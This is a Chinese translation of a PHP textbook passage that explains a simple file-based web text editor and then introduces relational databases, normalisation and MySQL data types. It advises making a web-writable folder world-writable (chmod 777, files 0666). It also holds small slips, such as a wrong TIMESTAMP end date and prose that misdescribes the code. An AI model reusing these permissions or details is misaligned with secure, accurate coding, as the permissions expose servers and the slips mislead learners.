        ?><!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
        "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
    <html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
    <head>
        <title>A simple text editor</title>
        <link rel="stylesheet" type="text/css" href="common.css" />
        <style type="text/css">
            .error { background: #d33; color: white; padding: 0.2em; }
            th   { text-align: left; background-color: #999; }
            td   { padding: 0.4em; }
        </style>
    </head>
    <body>
        <h1>A simple text editor</h1>
        <?php
        }
    ?>
```

### 测试编辑器

要试用您的文本编辑器，首先在 Web 服务器的硬盘上某处创建一个文件夹来存储文本文件。授予 Web 服务器用户在此文件夹中创建文件的权限。在 Linux 和 Mac OS X 上，打开终端窗口，然后切换到父文件夹，对文本文件夹使用 `chmod` 命令。例如，如果您的文本文件夹是 `/home/matt/sandbox`，可以键入：

```
$ cd /home/matt
$ chmod 777 sandbox
```

如果您运行的是 Windows Web 服务器，请参阅本章前面的“更改权限”部分，了解如何更改权限的详细信息。但是，脚本在 Windows 上运行时，您很可能不需要更改权限。

创建文本文件夹并设置适当权限后，需要让脚本知道新文件夹。为此，请在脚本顶部设置 `PATH_TO_FILES` 常量：

```
define("PATH_TO_FILES", "/home/matt/sandbox");
```

现在一切就绪。在 Web 浏览器中打开文本编辑器脚本的 URL，您应该会看到类似图 11-4 的页面（不过此阶段它不会列出任何文件）。在文本字段中输入新文件名（不带“.txt”扩展名），然后单击“创建文件”。您将看到类似图 11-5 所示的表单；输入文本并单击“保存文件”，将更改保存到新文件中。然后可以通过在列表中单击文件名来重新编辑该文件。


图 11-4


图 11-5

### 检查编辑器代码

文本编辑器演示了本章学到的许多函数，并说明了一些有用的编码技术。在以下部分中，您将探索文本编辑器脚本各个部分的工作原理，并了解这些部分如何协同工作以使应用程序运行。

### 主逻辑

脚本首先定义将存储文本文件的文件夹路径。它使用名为 PATH_TO_FILES 的常量来实现：

```
define("PATH_TO_FILES", "/home/matt/sandbox");
```

用户将在此文件夹中创建和编辑所有文本文件。出于安全考虑，确保用户不得在此文件夹之外创建或修改文件非常重要，稍后您将看到如何实现这一点。

接下来是脚本的主决策逻辑。这段代码检查 `$_POST` 和 `$_GET` 超全局数组，并根据找到的字段，调用适当的函数来处理请求：

```
if (isset($_POST["saveFile"])) {
    saveFile();
} elseif (isset($_GET["filename"])) {
    displayEditForm();
} elseif (isset($_POST["createFile"])) {
    createFile();
} else {
    displayFileList();
}
```

如果提交了 saveFile 表单字段，则用户希望保存其编辑，因此会调用 saveFile() 函数。如果在查询字符串中找到了 filename 字段，则用户已单击列表中要编辑的文件；会调用 displayEditForm() 让用户编辑文件。如果找到了 createFile 表单字段，则用户已单击创建文件按钮来创建新文件，因此会调用 createFile() 来创建新文件。最后，如果这些字段都不存在，则通过调用 displayFileList() 显示文件列表。

### displayFileList() 函数

当用户首次运行应用程序时，会调用 displayFileList() 来显示要编辑的文件列表，以及允许用户添加新文件的表单字段（图 11-4）。该函数接受一个可选参数 $message，其中包含要在表单中显示给用户的任何错误消息。

首先，函数会调用 displayPageHeader() 辅助函数（稍后介绍）来生成标准页眉。接下来，它会检查文本文件目录是否存在（如果不存在，脚本会带错误消息退出），并尝试通过调用 dir() 函数打开目录并检索目录对象（同样，如果出现问题，脚本会退出）：

```
displayPageHeader();
if (!file_exists(PATH_TO_FILES)) die("Directory not found");
if (!($dir = dir(PATH_TO_FILES))) die("Can't open directory");
```

在显示传递给函数的任何错误消息，并启动用于显示文件列表的 HTML 表格后，该函数使用 while 构造并调用 `$dir->read()` 方法来遍历文本文件目录中的条目。对于每个条目，脚本会检查条目的文件名是否不是 "." 或 ".."，文件是否不是目录，以及其文件扩展名是否为 ".txt"。如果条目符合所有这些标准，则将其显示为表格中的一行。请注意，循环会将每个文件的完整路径存储在临时 $filepath 变量中，以方便使用：

```
while ($filename = $dir->read()) {
    $filepath = PATH_TO_FILES . "/$filename";
    if ($filename != "." && $filename != ".." && !is_dir($filepath) &&
        strrchr($filename, ".") == ".txt") {
        echo '<tr><td><a href="text_editor.php?filename=' . urlencode($filename) . '">' . $filename . '</a></td>';
```


```php
echo '<td>' . filesize( $filepath ) . '</td>';
echo '<td>' . date( "M j, Y H:i:s", filemtime( $filepath ) ) . '</td></tr>';
      }
}
```

要在表格中显示每个文件，脚本会在文件名周围包装一个链接，以便用户可以编辑该文件。链接的 URL 包含查询字符串 "?filename="，后跟要编辑的文件名。请注意，文件名通过将其传递给 `urlencode()` 函数来在查询字符串中编码。脚本还通过调用 `filesize()` 函数显示文件的大小。最后，通过调用 `filemtime()` 函数并将结果时间戳传递给 `date()` 函数进行格式化，来显示文件的“上次修改”时间。

*有关 urlencode() 的更多信息，请参见第 10 章；有关 date() 的更多信息，请参见第 16 章。*

循环结束后，该函数会关闭目录并显示创建新文件的表单。该表单包含一个文件名文本字段和一个 createFile 提交按钮。

## displayEditForm() 函数

当用户单击要编辑的文件时，会调用 displayEditForm() 函数来显示文件内容以供编辑。此函数可以接受一个可选的 $filename 参数，其中包含要编辑的文件的文件名；如果未传递该参数，它会在查询字符串中查找文件名，并将其传递给 basename()，以确保文件名中不包含其他路径信息；这是一种良好的安全措施，因为它可以阻止任何尝试编辑指定文件夹外文件的行为。此外，如果出于某种原因文件名为空，脚本会出错退出：

```php
function displayEditForm( $filename="" ) {
  if ( !$filename ) $filename = basename( $_GET["filename"] );
  if ( !$filename ) die( "Invalid filename" );
}
```

接下来，该函数将文件的完整路径存储在 $filepath 变量中（因为该路径在函数中需要多次使用），并检查要编辑的文件是否确实存在——如果不存在，它会显示“文件未找到”消息并退出：

```php
$filepath = PATH_TO_FILES . "/$filename";
if ( !file_exists( $filepath ) ) die( "File not found" );
```

函数的其余部分会调用 displayPageHeader() 输出标准页面标记，然后显示正在编辑的文件名以及用于编辑文件的 HTML 表单。表单由存储正在编辑的文件名的隐藏字段、用于文件内容的文本区域以及“保存文件”和“取消”按钮组成。只需调用 file_get_contents() 并输出结果，即可在文本区域中显示文件内容。

请注意，文件名和 fileContents 字段值会通过 PHP 的 htmlspecialchars() 函数传递，以对标记中的 &、< 和 > 等字符进行编码。这是一个值得采取的良好安全措施：

```php
<textarea name="fileContents" id="fileContents" rows="20" cols="80"
style="width: 100%;"><?php
echo htmlspecialchars( file_get_contents( $filepath ) )
?></textarea>
```

有关 htmlspecialchars() 以及一般安全性的更多信息，请参见第 20 章。

## saveFile() 函数

当用户提交包含文件内容的编辑表单时，会调用 saveFile()。它从表单数据中读取文件名——通过 basename() 对文件名进行清理——然后将文件的完整路径存储在 $filepath 中：

```php
$filename = basename( $_POST["filename"] );
$filepath = PATH_TO_FILES . "/$filename";
```

接下来，该函数检查文件是否存在；如果存在，它会通过调用 file_put_contents() 将文件内容写入文件，然后通过调用 displayFileList() 再次显示文件列表页面。如果出现问题，会显示适当的错误消息并退出脚本。请注意，该函数使用 === 运算符来测试 file_put_contents() 的返回值是否精确等于 false。仅使用 == 或 ! 运算符无法完成这项工作。为什么呢？因为如果成功，file_put_contents() 会返回写入的字符数。如果文件内容恰好为空，该值将为零，而 0 == false，因此使用 == 或 ! 会在这种情况下错误地退出脚本并报错：

```php
if ( file_exists( $filepath ) ) {
    if ( file_put_contents( $filepath, $_POST["fileContents"] ) === false )
        die( "Couldn't save file" );
    displayFileList();
} else {
    die( "File not found" );
}
```

有关 true、false 和 == 运算符的更多信息，请参见第 3 章。

## createFile() 函数

如果用户在文件列表页面单击“创建文件”按钮，则会调用 createFile() 来尝试创建新文件。该函数读取并清理从表单发送的文件名字段。如果文件名为空，会显示一条错误消息并再次显示文件列表页面：

```php
$filename = basename( $_POST["filename"] );
$filename = preg_replace( "/[^A-Za-z0-9\\-_]/", "", $filename );
if ( !$filename ) {
    displayFileList( "Invalid filename - please try again" );
    return;
}
```

请注意，该函数使用正则表达式从文件名中删除除字母、数字、下划线、连字符和空格之外的所有字符。出于安全考虑，将用户输入限制为一组已知的安全字符（而不过度限制）总是个好主意。有关正则表达式的更多信息，请参见第 18 章；有关用户输入过滤和验证的更多信息，请参见第 20 章。

接下来，该函数在文件名末尾追加 .txt 扩展名，并将 $filepath 变量设置为存储文件的完整路径：

```php
$filename .= ".txt";
$filepath = PATH_TO_FILES . "/$filename";
```

接下来会检查文件路径，以确保文件不存在；如果文件存在，会警告用户且不会创建文件：

```php
if ( file_exists( $filepath ) ) {
    displayFileList( "The file $filename already exists!" );
```

如果文件不存在，则通过调用 file_put_contents() 并传入空字符串作为文件内容来创建文件。（如果文件不存在，file_put_contents() 会自动创建文件。）如果 file_put_contents() 返回的恰好是 false（使用 == 运算符测试），则无法创建文件，脚本会出错退出：

```php
} else {
    if ( file_put_contents( $filepath, "" ) == false ) die( "Couldn't create file" );
```

创建文件后，会设置其权限，以便任何人都可以读写该文件。最后，会调用 displayEditForm()，并传入新创建文件的名称，以便用户可以开始编辑它：

```php
chmod( $filepath, 0666 );
displayEditForm( "$filename" );
```

## displayPageHeader() 函数

displayPageHeader() 实用函数只需输出应用程序中所有页面共用的 XHTML 页面标头。这样可以避免在脚本中多次包含标记。除了包含第 2 章中的标准 common.css 样式表外，标头还定义了一些额外的 CSS 规则，用于样式化错误消息和文件列表表格：

```html
<link rel="stylesheet" type="text/css" href="common.css" />
<style type="text/css">
.error { background: #d33; color: white; padding: 0.2em; }
th { text-align: left; background-color: #999; }
th, td { padding: 0.4em; }
</style>
```

这个文本编辑器使用了本章中描述的许多文件相关函数，还演示了安全性和错误处理等一些重要概念。你可以将其中许多概念应用到你创建的其他 Web 应用程序中。

## 摘要

在本章中，你学习了如何操作文件，并探索了 PHP 的各种文件处理函数。你了解了：

- 文件和目录的工作原理，以及类 UNIX 服务器和 Windows 服务器上文件路径的区别
- 使用 `file_exists()`、`filesize()`、`fileatime()`、`filectime()`、`filemtime()`、`basename()` 和 `dirname()` 检索文件信息
- 使用 `fopen()` 和 `fclose()` 打开和关闭文件以进行读写
- 使用 `fread()`、`fwrite()`、`fgetc()`、`feof()`、`fgets()`、`fgetcsv()`、`file()`、`file_get_contents()`、`file_put_contents()`、`fpassthru()`、`readfile()`、`fseek()`、`ftell()` 和 `rewind()` 读写文件
- 使用 `chmod()` 设置文件权限，并使用 `is_readable()`、`is_writable()` 和 `is_executable()` 检查权限
- 使用 `copy()` 复制文件，使用 `rename()` 重命名和移动文件，并使用 `unlink()` 删除文件
- 使用 `opendir()`、`closedir()`、`readdir()`、`rewinddir()` 和 `dir()` 读取目录
- 使用 `chdir()`、`mkdir()` 和 `rmdir()` 操作目录
- 使用 `is_file()` 和 `is_dir()` 测试文件和目录

在此过程中，你学习了如何使用递归遍历目录树，还构建了一个简单的文本编辑器，以阐明本章中涵盖的许多函数和概念。

未讨论 Web 应用程序中很少使用的一些函数。要查看 PHP 文件和目录函数的完整列表，请参阅在线 PHP 函数列表：http://www.php.net/manual/ref.filesystem.php。


在下一章中，你将了解另一种流行的存储应用程序数据的方式：数据库。这是一个相当大的话题，因此内容分布在接下来的三章中。第 12 章介绍数据库的概念；第 13 章展示如何从数据库读取数据；第 14 章展示如何操作数据库中的数据。

在离开本章之前，尝试下面的练习来测试你对 PHP 中文件和目录处理的了解。你可以在附录 A 中找到此练习的解答。

### 练习

创建一个 PHP 应用程序，在给定一个顶级目录进行搜索时，可以按名称查找特定目录。使该应用程序遍历给定目录，以及给定目录下的所有目录。

## 介绍数据库和 SQL

在上一章中，你学习了 PHP 脚本如何使用外部文件来存储和检索数据。虽然文件在许多情况下都能很好地工作，但作为数据存储解决方案，它们相当不灵活。例如，如果你需要过滤或排序从文件中检索的数据，就必须编写自己的 PHP 代码来完成。这不仅麻烦，而且如果你正在处理大量数据——例如，数十万条用户记录——你的脚本可能会彻底停止运行。如果你希望构建一个流行的网站，这可不是好事。

数据库专门用于解决这个问题。凭借其组织和完美保存记录的能力，它们有点像由超级英雄值班的借阅图书馆。不用再花几个小时在书架上搜寻发霉的旧书了；只需在前台说一句话，蓝红身影一闪，《霍乱时代的爱情》最后一本余下的拷贝——仿佛魔法般——出现在你面前的书桌上。

这是探索数据库并学习如何使用它们来创建强大、高效的 PHP 应用程序的三章系列中的第一章。下一章将向你展示如何访问数据库中的数据，第 14 章将探讨插入、更新和删除数据。

本章的目的是让你开始使用数据库。在本章中，你将：

- 了解使用数据库而非文件来存储数据的一般优势
- 了解你可能会遇到的一些流行数据库及其区别
- 探索关系数据库的概念，并了解关系数据库的常见概念，例如规范化和索引
- 了解如何配置 MySQL，这是一种可免费获得并广泛用于 PHP 的数据库系统

# 第三部分：在实践中使用 PHP

- 了解如何使用 MySQL 创建数据库，以及检索和修改数据库的内容
- 学习如何在 PHP 脚本中连接 MySQL 数据库并使用其基础知识

等你读完本章，就会充分准备好开始认真使用数据库，这将在第 13 章和第 14 章中进行。

### 决定如何存储数据

每当你开始开发数据驱动的应用程序时，首要的设计决策之一应该是：应用程序将如何存储和访问其数据？答案将取决于应用程序的要求。在最基本的层面上，你应该问诸如以下问题：

- 应用程序将使用多少数据？
- 它需要多久访问一次数据？
- 它需要多久修改一次数据？
- 可能有多少用户想要同时访问数据？
- 数据随时间会增长多少？
- 如果数据损坏、被盗或丢失，我会损失多少？

如果上述任何问题的答案是“a lot”，你可能会想避免使用纯文本文件来存储数据。这并不是说文本文件毫无用处——事实上，如果你只想读取大量未经过滤或未排序的数据，文本文件通常可能是最快的方法——但一般来说，如果你需要快速且可靠地存储和访问结构化数据，纯文本文件并不是个好选择。

通常，比文本文件更高效的替代方案是使用数据库引擎——通常称为数据库管理系统（DBMS）——来为你存储、检索和修改数据。一个好的数据库引擎充当你和你的数据之间的智能中介，组织和编目数据以便快速便捷地检索。

那么，所有数据存放在哪里呢？嗯，这在一定程度上取决于你使用的数据库引擎。不过，数据最终可能会存储在若干文件中——没错，就是文件！事实是，你在某种程度上无法真正摆脱使用文件。关键在于找到尽可能高效地使用它们的方法，而一个好的数据库引擎在其比喻性的袖子里藏有许多许多这样的诀窍。

> 这本书，以及开发人员一般，常使用“database”一词来指代数据库引擎、数据本身或两者兼而有之。通常从上下文中可以清楚地了解其确切含义。

### 数据库架构

在开始之前，你需要确定要用于实验的特定数据库，这意味着首先要决定将使用哪种数据库架构。大体上讲，你有两个主要选择：嵌入式和客户端-服务器式。让我们快速看看这两者。

### 嵌入式数据库

顾名思义，嵌入式数据库引擎位于使用它的应用程序内部（本例中为 PHP）。因此，它始终在与主机应用程序同一台机器上运行——并存储其数据。该数据库不联网，任何给定时间只能有一个程序连接到它。此外，该数据库无法在不同机器之间共享，因为每台机器最终都会存储和操作其自身独立的数据副本。

从优点来看，嵌入式数据库通常速度更快、更易配置、更易使用。

嵌入式数据库引擎的经典示例包括 dBase 和 dbm，PHP 以扩展的形式同时支持这两个引擎。后来加入的成员是 SQLite，它与 PHP 引擎本身捆绑在一起，安装简便。它值得一看，一些出色的性能数据当然有助于证明其作为 PHP 数据库技术新星的地位。你可以在附录 C 中了解有关 SQLite 的更多信息。

### 客户端-服务器数据库

一般而言，客户端-服务器数据库比嵌入式数据库更强大、更灵活。它们通常设计用于网络，使网络中的许多应用程序能够同时使用相同的数据。数据库引擎本身充当服务器，向其客户端提供数据（很像 Web 服务器向 Web 浏览器提供页面）。原则上，它可以处理来自几乎任何拥有网络连接和合适客户端程序的地方的请求。话虽如此，在同一台机器上同时运行服务器和客户端完全没有问题；事实上，这是一种非常常见的设置。

这是你更可能在大型公司中找到的那种数据库，在大型公司中，大量数据需要在许多人之间共享，可能需要从各种不同的位置访问，而且拥有一个单一的集中式数据存储使得管理和备份等重要工作相对简单。任何需要访问数据库的应用程序都使用专用的轻量级客户端程序与服务器通信。

大多数关系数据库——包括 Oracle、DB2 和 SQL Server——都具有客户端-服务器架构。（你稍后将了解关系数据库。）

### 数据库模型

除了考虑数据库系统的架构之外，还值得考虑你想使用的数据库模型。模型决定了数据的存储和访问方式。当今使用许多不同的数据库模型，但在本节中，你将了解两种常见模型：简单数据库模型和关系数据库模型。

### 简单数据库

顾名思义，简单数据库引擎是使用起来最简单的数据库类型。基本上，简单模型类似于数据的关联数组。每个数据项由单个键引用。不可能定义数据库中数据之间的任何关系。

对于较小的应用程序，使用简单数据库模型通常会有好处。例如，如果你只需要根据键查找数据，简单数据库速度极快。

简单模型数据库的常见示例包括 dbm 及其变体，其中 Berkeley DB 当前最受欢迎。


## 关系型数据库

关系型数据库比简单数据库提供更强的功能和灵活性，因此往往是更受欢迎的选择。它们也被称为 RDBMSs（关系型数据库管理系统）。在接下来的三章中，你将重点了解 RDBMSs。

RDBMSs 通常设置和管理起来既昂贵又复杂。该领域公认的三大巨头是 Oracle、DB2（IBM 旗下）和 SQL Server（微软旗下）。这三款都是庞大且功能丰富的系统，看起来能够处理现代企业可能需要的几乎任何类型的数据存储和处理。但问题在于，这些系统庞大且昂贵，可能包含你永远用不上的许多功能。

幸运的是，还有可用的替代方案，例如 PostgreSQL 和 MySQL，它们都是开源的关系型数据库系统，多年来深受 PHP 开发者青睐。它们速度快、稳定，能轻松满足中小型项目的需求，而且，最重要的是，它们是免费的！

## 选择数据库

原则上，你可以在 PHP 应用程序中使用这些数据库系统中的任何一种。你甚至可以将一个应用程序连接到多个不同的数据库引擎。然而，为了保持这些章节的适当长度，你将只专注于一种数据库引擎：MySQL。

与其他选择相比，它具有多项优势：

- 它是当今 Web 上最流行的数据库之一
- 它可以免费下载，用于在你自己的机器上安装和运行
- 它易于在多种操作系统上安装（包括 UNIX、Windows 和 Mac OS X）
- 它作为许多 Web 托管套餐中相对便宜的功能提供
- 它易于使用，并包含一些实用的管理工具
- 它是一个快速、强大的系统，能够很好地处理大型复杂数据库，并在处理大型项目时大有裨益

如果你不太在意最后一个标准（特别是如果你不想为 Web 托管账户上的数据库功能支付额外费用！），你可能会发现像 SQLite 这样的嵌入式数据库也能很好地完成工作。PostgreSQL 也是一个不错的选择，在性能和功能上与 MySQL 相似。

虽然这三章的重点是 MySQL，但你学到的许多技巧可以轻松迁移到其他数据库系统。

你可以在附录 C 中了解有关使用 SQLite、PostgreSQL 及其他数据库的更多信息。

## 理解关系型数据库

简单来说，关系型数据库是任何允许数据按共同属性关联和分组的数据库系统。例如，一组工资记录可以按员工、部门或日期分组。通常，关系型数据库将数据安排在表中，每个表又分为行和列。

在数据库术语中，表中的每一行代表一个数据记录：一组内在关联的数据片段，例如与特定人员相关的信息。同样，每一列代表一个字段：表中每条记录都具有相同意义的特定类型数据，例如“名”或“年龄”。

“行”和“记录”这两个术语通常可以互换，“列”和“字段”也是如此。

下面是一个数据库表的示例。假设一名足球队经理设置了一个数据库，以便跟踪她的球员参加的比赛。她要求每名球员在每场比赛后将自己的详细信息录入数据库。两场比赛后，名为 `matchLog` 的经理表如下所示：

| 球员编号 | 姓名 | 电话号码 | 出场日期 | 昵称 |
|---|---|---|---|---|
| 42 | 大卫 | 555-1234 | 03/03/04 | Dodge |
| 6 | 尼克 | 555-3456 | 03/03/04 | Obi-d |
| 2 | 大卫 | 555-6543 | 03/03/04 | Witblitz |
| 14 | 马克 | 555-1213 | 03/03/04 | Greeny |
| 2 | 大卫 | 555-6543 | 02/25/04 | Witblitz |
| 25 | 帕兹 | 555-9101 | 02/25/04 | Pads |
| 6 | 尼克 | 555-3456 | 02/25/04 | Obi-d |
| 7 | 尼克 | 555-5678 | 02/25/04 | Nicrot |

在这个表中，你可以看到，每一行代表某名球员在特定日期的相关信息，而每一列包含每个人或每个日期的特定类型数据。请注意，表格顶部的每一列都有一个名称用于标识它；这被称为字段名或列名。

### 规范化

经理很快意识到，在所有人都完成了整个赛季的比赛后，这个 `matchLog` 表将会变得非常庞大。正如你所看到的，该表的结构效率低下，因为每名球员的详细信息——编号、姓名、电话号码等——每次他参加比赛时都要重新输入。这种冗余在数据库中是不希望出现的。例如，假设 6 号球员老是掉球，他的队友决定给他起个新昵称（此处不予提及）。要更新表格，该球员的每一条记录都必须修改以反映他的新昵称。

此外，每次球员在比赛后输入详细信息时，所有这些重复信息都会占用硬盘上的宝贵空间。冗余效率极其低下，浪费大量时间和空间。

幸运的是，在 20 世纪 70 年代初，E. F. 科德博士提出了一种独特而强大的方法来缓解此类问题。他制定了一套规则，当应用于数据时，可确保你的数据库设计良好。这些规则被称为 `_范式_`，而对数据进行规范化——即确保其符合这些规范范式——在确保良好的关系型数据库设计方面大有裨益。本章不详细讨论规范化，因为这是一个相当复杂的话题。不过，基本思路是将数据拆分为几个相关联的表，以最大限度减少重复相同数据的次数。

`matchLog` 表包含大量重复数据。你可以看到，大部分重复数据都与单个球员相关。例如，昵称为“Witblitz”的球员在表中被提及了两次，每次提及时，他的所有信息——球员编号、姓名和电话号码——也都被包含在内。

因此，将球员详细信息提取到单独的 `players` 表中是合理的，如下所示：

| 球员编号 | 姓名 | 电话号码 | 昵称 |
|---|---|---|---|
| 42 | 大卫 | 555-1234 | Dodge |
| 6 | 尼克 | 555-3456 | Obi-d |
| 14 | 马克 | 555-1213 | Greeny |
| 2 | 大卫 | 555-6543 | Witblitz |
| 25 | 帕兹 | 555-9101 | Pads |
| 7 | 尼克 | 555-5678 | Nicrot |

你可以看到，这个表中每个球员只有一条记录。`playerNumber` 字段是唯一标识每个球员的字段（例如，有两个大卫，但他们的 `playerNumber` 字段不同）。`playerNumber` 字段被称为该表的 `_主键_`。

现在，球员字段已提取到 `players` 表中，原始的 `matchLog` 表仅包含一个字段——`datePlayed`，表示特定球员参加比赛的日期。接下来是关键部分。首先，将 playerNumber 列重新添加到 matchLog 表中：

| 球员编号 | 出场日期 |
|---|---|
| 42 | 03/03/04 |
| 6 | 03/03/04 |
| 2 | 03/03/04 |
| 14 | 03/03/04 |
| 2 | 02/25/04 |
| 25 | 02/25/04 |
| 6 | 02/25/04 |
| 7 | 02/25/04 |

现在，通过关联 player 和 matchLog 表中 playerNumber 字段的值，你可以将每个球员与他参加比赛的日期（或日期）关联起来。这两个表通过 playerNumber 字段连接。matchLog 表中的 playerNumber 字段被称为外键，因为它引用了 players 表中的主键，且 matchLog 表中不能存在不在 players 表中出现的 playerNumber 值。

因为 matchLog 表中仅剩的重复球员信息是 playerNumber 字段，与原始表相比，你节省了一些存储空间。此外，现在更改球员昵称也很容易，因为你只需在一个位置进行更改：players 表中的单一行。

这两个表之间的这种连接称为一对多关系，因为一个球员记录可能与多条 matchLog 记录相关联（假设该球员参加多场比赛）。这在关系型数据库中是一种非常常见的表结构安排。

你可能在想如何从这两个表中实际检索信息，例如 2004 年 3 月 3 日参赛球员的昵称。这时 SQL 就派上用场了。你将在下一节了解 SQL。

## 使用 SQL 与数据库通信

SQL（结构化查询语言）是一种用于与关系型数据库通信的简单、标准化语言。SQL 可让你完成几乎任何与数据库相关的任务，包括创建数据库和表，以及在数据库中保存、检索、删除和更新数据。

如前所述，本章专注于 MySQL。SQL 的具体方言在不同数据库系统之间有所不同，但由于基本概念相似，你在一个系统上学到的 SQL 技能可以轻松迁移到另一个系统。在本节中，你将考察 SQL 的一些基本特性：数据类型、索引（键）、语句和查询。


## MySQL 数据类型

当你创建一个数据库表（本章后面将介绍）时，必须定义每个字段的类型和大小。字段类似于 PHP 变量，只不过在给定字段中只能存储指定类型和大小的数据。例如，你不能将字符插入整数字段中。MySQL 支持三大类数据类型——数值、日期/时间和字符串——下面各节将概述这些类型。

> 这里的描述对日常使用已经足够，但并不完整。要了解完整详情，请参阅 http://dev.mysql.com/doc/ 上的 MySQL 手册。

> 本书假设你使用的是 MySQL 5 版本（撰写时的当前版本）。

## 数值数据类型

你可以用多种方式在 MySQL 中存储数字，如下表所示。一般来说，你应该选择最适合需要存储的数字类型的数据类型。

| 数值数据类型 | 描述 | 允许的值范围 |
|---|---|---|
| TINYINT | 极小的整数 | −128 到 127，或者如果为 UNSIGNED 则为 0 到 255 |
| SMALLINT | 小整数 | −32768 到 32767，或者如果为 UNSIGNED 则为 0 到 65535 |
| MEDIUMINT | 中等大小的整数 | −8388608 到 8388607，或者如果为 UNSIGNED 则为 0 到 16777215 |
| INT | 普通大小的整数 | −2147483648 到 2147483647，或者如果为 UNSIGNED 则为 0 到 4294967295 |
| BIGINT | 大整数 | −9223372036854775808 到 9223372036854775807，或者如果为 UNSIGNED 则为 0 到 18446744073709551615 |
| FLOAT | 单精度浮点数 | 最小非零值：±1.176 × 10⁻³⁸，最大值：±3.403 × 10³⁸ |
| DOUBLE | 双精度浮点数 | 最小非零值：±2.225 × 10⁻³⁰⁸，最大值：±1.798 × 10³⁰⁸ |
| DECIMAL(precision, scale) | 定点数 | 与 DOUBLE 相同，但为定点而非浮点。precision 指定允许的总位数，而 scale 指定小数点右侧的位数。 |
| BIT | 0 或 1 | 0 或 1 |

为什么不总是使用能容纳最大范围数字的数据类型，比如 `BIGINT` 和 `DOUBLE` 呢？嗯，数据类型越大，在数据库中占用的存储空间就越多。例如，`INT` 字段占用四个字节，而 `SMALLINT` 字段只需要两个字节的存储空间。如果你最终要存储数百万条记录，那多出的两个字节可能会产生很大影响！所以请使用能够舒适容纳你预期使用的值范围的最小数据类型。

在定义字段时，可以在数值数据类型后添加 `UNSIGNED` 属性。无符号数据类型只能容纳正数。对于整数类型，无符号类型能容纳的最大值大约是其等效有符号类型的两倍。例如，`TINYINT` 可容纳的最大值为 127，而无符号 `TINYINT` 可容纳的最大值为 255。但是，对于无符号的 `FLOAT`、`DOUBLE` 和 `DECIMAL` 类型，最大值与其有符号等效类型相同。

## 日期和时间数据类型

与数字类似，你可以从多种不同的数据类型中选择来存储日期和时间，具体取决于你只想存储日期、只想存储时间，还是两者都要：

| 日期/时间数据类型 | 描述 | 允许的值范围 |
| :--- | :--- | :--- |
| DATE | 日期 | 1000 年 1 月 1 日 到 9999 年 12 月 31 日 |
| DATETIME | 日期和时间 | 1000 年 1 月 1 日午夜 到 9999 年 12 月 31 日 23:59:59 |
| TIMESTAMP | 时间戳 | 1970 年 1 月 1 日 00:00:01 到 2038 年 1 月 9 日 03:14:07，UTC（协调世界时） |
| TIME | 时间 | -838:59:59 到 838:59:59 |
| YEAR | 年份 | 1901 到 2155 |

当你需要在 MySQL 中指定字面量 `DATE`、`DATETIME` 或 `TIMESTAMP` 值时，可以使用以下任一格式：

- YYYY-MM-DD / YY-MM-DD
- YYYY-MM-DD HH:MM:SS / YY-MM-DD HH:MM:SS
- YYYYMMDD / YYMMDD
- YYYYMMDDHHMMSS / YYMMDDHHMMSS

## 字符串数据类型

MySQL 允许你用多种不同的方式存储文本或二进制字符串数据，如下表所示：

| 字符串数据类型 | 描述 | 允许的长度 |
|---|---|---|
| CHAR(n) | 固定长度的 n 个字符的字符串 | 0–255 个字符 |
| VARCHAR(n) | 最多 n 个字符的可变长度字符串 | 0–65535 个字符 |
| BINARY(n) | 固定长度的 n 个字节的二进制字符串 | 0–255 个字节 |
| VARBINARY(n) | 最多 n 个字节的可变长度二进制字符串 | 0–65535 个字节 |
| TINYTEXT | 小型文本字段 | 0–255 个字符 |
| TEXT | 普通大小的文本字段 | 0–65535 个字符 |
| MEDIUMTEXT | 中等大小的文本字段 | 0–16777215 个字符 |
| LONGTEXT | 大型文本字段 | 0–4294967295 个字符 |
| TINYBLOB | 小型 BLOB（二进制大对象） | 0–255 个字节 |
| BLOB | 普通大小的 BLOB | 0–65535 个字节 |
| MEDIUMBLOB | 中等大小的 BLOB | 0–16777215 个字节（16MB） |
| LONGBLOB | 大型 BLOB | 0–4294967295 个字节（4GB） |
| ENUM | 枚举 | 该字段可以包含预定义列表中的一个值，列表最多可包含 65,535 个值 |
| SET | 值的集合 | 该字段可以包含预定义列表中的零个或多个值，列表最多可包含 64 个值 |

CHAR 字段和 VARCHAR 字段的区别在于，无论实际数据有多短，CHAR 都将数据作为固定长度字符串存储，而 VARCHAR 则使用存储给定值所需的确切字符数。假设你将字符串 "dodge" 插入以下字段中：

- char_field 定义为 CHAR(10)
- varchar_field 定义为 VARCHAR(10)

它们会略有不同地存储相同的字符串，如下所示：

```
char_field: "dodge "   // Right-padded with five spaces
varchar_field: "dodge"   // No padding
```

一般而言，`VARCHAR` 字符字段可以节省磁盘空间。不过，不要被诱惑用 `VARCHAR` 字段来存储每个字符串，因为这也有缺点。首先，MySQL 服务器处理 `CHAR` 类型字段的速度远快于 `VARCHAR` 类型，因为它们的长度是预先确定的。如果你的字符串长度变化不大，或者根本不变化，那么使用 `CHAR` 类型字段更好。事实上，当你的字符串长度都相同时，`VARCHAR` 占用的磁盘空间更多，因为它必须在额外的一个或两个字节中存储每个字符串的长度。

使用字符类型——`CHAR`、`VARCHAR`、`TEXT` 等等——时，你能存储的数量可能小于所示的最大值，具体取决于所使用的字符集。例如，UTF-8（Unicode）字符集通常每个字符最多使用 3 个字节，因此 `VARCHAR` 字段可能只能存储最多 21,844 个 UTF-8 字符。

## 使用索引和键

经验不足的数据库设计师有时会抱怨他们的数据库引擎运行缓慢——这个问题通常是因为缺少 _索引_ 造成的。索引是表中特定列（或多列）值的一个单独排序列表。索引也常被称为 _键_；这两个词大体上可以互换。你可以在创建表时，或在表创建后的任何时候，为一个或多个列可选地添加索引。

为了解释为何为表建立索引会对数据库性能产生显著影响，首先考虑一个没有索引的表。这样的表类似于一个普通文本文件，数据库引擎必须按顺序搜索它。关系数据库中的行没有特定的插入顺序；服务器以任意方式插入它们。为了确保找到所有与你想要的信息匹配的条目，引擎必须扫描整个表，这很慢且效率低下，尤其是当只有少数匹配项时。

现在考虑一个已建立索引的表。引擎不再直接访问表，而是可以扫描索引以查找符合你要求的项。因为索引是一个排序列表，所以这个扫描可以非常快速地执行。索引引导引擎找到数据库表中的相关匹配项，无需进行全表扫描。

